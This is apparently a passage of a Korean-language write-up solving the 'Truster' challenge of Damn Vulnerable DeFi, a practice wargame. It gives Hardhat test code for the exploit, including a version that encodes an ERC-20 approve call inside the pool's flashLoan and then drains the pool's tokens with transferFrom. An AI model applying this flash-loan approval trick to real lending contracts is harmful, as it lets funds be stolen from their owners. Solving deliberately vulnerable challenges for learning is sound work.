 * 익스플로잇 Javscript 코드

~~~
  ...
  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const AttackContract = await ethers.getContractFactory("Attack");
    this.attackContract = await AttackContract.deploy();

    await this.attackContract.attack(
        this.pool.address, 
        this.token.address,
        attacker.address);
  });
  ...
~~~

1. Javascript만 이용하는 방법

~~~
  ...
  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const data = web3.eth.abi.encodeFunctionCall({
        name: 'approve',
        type: 'function',
        inputs: [{
            type: 'address',
            name: 'spender'
        }, {
            type:'uint256',
            name: 'amount'
        }]
    }, [attacker.address, TOKENS_IN_POOL]);
    await this.pool.connect(attacker).flashLoan(0, attacker.address, this.token.address, data);
    await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);
  });
  ...
~~~
이 방법으로 할 때에는 익스플로잇 Javascript에서 web3.js를 사용할 수 있도록 해야 한다. 방법은 다음과 같다.
~~~
# Damn Vulnerable Defi 프로젝트의 root 디렉토리에서
$ npm install --save-dev @nomiclabs/hardhat-web3
~~~
그 다음 `hardhat.config.js`에 아래와 같이 `require` 문장을 추가한다.
~~~
require("@nomiclabs/hardhat-waffle");
require('@nomiclabs/hardhat-web3'); // 이거
require('@openzeppelin/hardhat-upgrades');
require('hardhat-dependency-compiler');
~~~

***EZ*** (...?)

## References

* [Damn Vulnerable DeFi-Truster](https://www.damnvulnerabledefi.xyz/challenges/3.html)
* [OpenZepplin Docs-Utilities](https://docs.openzeppelin.com/contracts/2.x/utilities)
* [OpenZepplin Docs-ERC 20](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20)